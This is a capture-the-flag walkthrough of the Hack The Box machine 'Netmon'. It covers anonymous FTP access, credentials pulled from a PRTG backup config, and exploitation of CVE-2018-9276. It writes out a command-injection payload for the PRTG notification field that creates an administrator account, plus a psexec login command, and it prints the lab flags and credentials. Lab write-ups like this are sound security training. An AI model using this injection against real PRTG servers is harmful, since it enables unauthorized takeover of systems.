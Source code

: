 # HTB: Netmon

## Engagement Overview

- **Target:** Netmon  
- **Box IP:** 10.10.10.152  
- **Local IP:** 10.10.14.16  
- **Date:** 2025-07-22

---

## Objectives

- Gain root access

---

## Service Enumeration

### Nmap Summary
```bash
nmap -sCV -oA nmap.txt 10.10.10.152
```

**Open Ports and Services:**
- **21/tcp** - FTP: Microsoft ftpd  
  - Anonymous login allowed
  - Exposed directory structure with config files
- **80/tcp** - HTTP: Indy httpd (Paessler PRTG)  
  - Version: 18.1.37.13946
  - Web interface accessible
- **135, 139, 445/tcp** - Windows RPC / SMB  
  - Windows Server 2008 R2 - 2012
  - Message signing not required
- **5985/tcp** - Microsoft HTTPAPI

**Host Notes:**
- SMB: Message signing disabled
- Anonymous access enabled

---

## Initial Access

### Vulnerability

- **CVE-2018-9276** – Authenticated RCE via PRTG Notifications

### Approach

1. Logged into FTP using anonymous access:
   - Discovered backup files:
     ```
     PRTG Configuration.old.bak
     ```
   - Downloaded `.bak` config file via FTP

2. Extracted credentials from config file:
   ```
   user: prtgadmin
   pass: PrTg@dmin2019
   ```

3. Logged into PRTG web interface at `http://10.10.10.152`:
   - Version: 18.1.37.13946
   - Vulnerable to CVE-2018-9276

---

## Privilege Escalation

### Exploit Method

- Injected reverse shell payload into the **PRTG Notification** system:
  ```plaintext
  abc.txt | net user htb abc123! /add & net localgroup administrators htb /add
  ```

- Executed the notification, then used `impacket-psexec` with the new user:
```bash
impacket-psexec htb:'abc123!'@10.10.10.152
```

### Result

- Logged in as **NT AUTHORITY\SYSTEM**
- Retrieved root flag successfully:
  ```
  C:\Users\Administrator\Desktop> type root.txt
  1fd2f7f093ba33f259d228549f100af6
  ```

---

## Post-Exploitation

### Flags

- **User Flag:** `1cfe7df9dbd51bcb426b0b8407544209`
- **Root Flag:** `1fd2f7f093ba33f259d228549f100af6`

### Credentials Dumped

- `prtgadmin` / `PrTg@dmin2019`

---

## Tools Utilized

- Nmap  
- FTP  
- Impacket (psexec.py)  
- Metasploit (optional, noted in research)

---

## House Cleaning

- No persistent users or shells left
- Access obtained and closed out after flag retrieval

---

## Key Takeaways

- Classic CVE exploitation with real-world software (PRTG)
- Importance of scanning for backup config files on exposed FTP
- Enumeration + light analysis = full box compromise
